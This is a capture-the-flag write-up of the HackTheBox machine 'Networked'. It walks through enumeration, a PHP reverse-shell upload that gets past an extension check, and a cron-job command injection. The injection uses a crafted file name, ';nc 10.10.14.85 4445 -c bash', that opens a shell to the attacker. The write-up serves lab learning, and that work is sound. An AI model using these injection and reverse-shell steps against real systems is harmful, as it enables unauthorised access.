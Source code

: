 ```yaml
---
title: HTB - Networked
tags: [Hacking, HTB, Security, Linux, PHP, Easy, Retired]
style:
color:
description: Here is my write up for the box Networked via Hackthebox.
---
```


I dont remember exactly when I popped this box, but I believe it was one of the first ones I did.

## 1. Enumeration

Alright, lets get down to it. First things first, nmap scan.

`nmap -Pn -sVC 10.10.10.146`

![nmap](../images/nmap_networked.png "nmap scan")

While that was running, I went ahead and started running both a dirb and nikto scan.

`dirb http://10.10.10.146 -r`

![dirb](../images/dirb_networked.png "dirb scan")

`nikto -h http://10.10.10.146`

![nikto](../images/nikto_networked.png "nikto scan")

## 2. Exploiting PHP

During the enum phase, dirb identified `backup.tar`. Downloading the tar file and unpacking it reveals the workings of `upload.php`. THe `upload.php` file only checks the extension of the file and if its under 60000k.

![upload.php workings](../images/upload_networked.png "upload.php workings")

Since we know how `upload.php` works, we can now upload a reverse shell and bypass the checks by modifying the request via Burp. I used pentestmonkey's handy dandy reverse PHP shell.

![burp modify request](../images/mod_req_networked.png "burp modify request")  

Tada! Reverse shell

![reverse shell as apache](../images/rs_networked.png "reverse shell")

## 3. Privilege Escalation to Guly

Now that we have a shell, its time to enumerate some more. First things first, lets see if `www-data` can run anything as root via the `sudo -l` command.

Bummer :(  
![sudo -l](../images/sudol1_networked.png "sudo -l command")

Going to attempt to transfer `lse.sh` and then run it to see all the interesting things on this machine.

![lse.sh -l1](../images/lse_networked.png "lse.sh")

In the cron jobs section, we notice a job `check_attack`. Reading the contents of this cron job reveals that it checks the uploads folder in the `/var/www/html/uploads` directory. Running `ls -la` on that directory shows we dont have read/write access, but were going to try and touch a file in there anyway.

`touch test.txt`  

![touch test](../images/touch_test_networked.png "touch test")  

Walla! It worked!

Now that we know we can touch a file, lets look at the code in the `check_attack` cron a little more carefully to see if we can exploit this and escalate our privileges. After looking over the code, there is one line that stands out in particularly:

`exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");`

If we touch a file into the uploads directory with the following name below:

`;nc 10.10.14.85 4445 -c bash`

Everything after the `;` symbol will be treated as a completely separate command. So when the cron job runs, which is being ran under the user Guly, it will execute the nc command then open a shell back on our attacking machine. Alternatively you can touch a file with the name of `test.txt` and then use the `mv` command to change it to the name mentioned above.

Success!

![guly shell](../images/guly_networked.png "guly shell")  

We can find the `user.txt` in its normal spot.

## 4. Privilege Escalation to root

Now that we have a little higher privileges lets do some more enumeration. First things first, checking if we can run anything as root via `sudo`.

`sudo -l`  
![sudo -l](../images/sudol_networked.png "sudo -l command")

Looks like we can run the above command as root. Quick google search?

Googling `changename.sh`, we find that there is a vulnerability that leads us on the path to get root [Vulmon](https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f).

Following the instructions about the vulnerability below, we get root. BOOM!

![priv esc to root](../images/root_networked.png "privup to root")


## 5. Conclusion

Overall this was a nice box. For me, the biggest hurdle was moving from www-data to the user Guly. After that it was smooth sailing.

Always remember, enumeration is your best friend! So is Google.
